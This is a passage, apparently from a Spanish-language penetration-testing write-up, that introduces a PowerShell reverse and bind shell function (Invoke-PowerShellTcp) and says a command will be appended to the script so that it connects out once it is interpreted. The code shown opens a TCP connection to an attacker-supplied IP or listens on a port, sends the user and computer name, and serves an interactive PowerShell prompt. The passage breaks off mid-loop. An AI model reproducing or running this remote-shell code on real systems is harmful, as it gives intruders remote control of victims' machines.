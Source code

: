 Para matar dos pajaros de un tiro, como es de costumbre añadiremos al final del `script` la ejecución del comando que nos otorgue la conexión una vez este se interprete.

```powershell
function Invoke-PowerShellTcp 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
```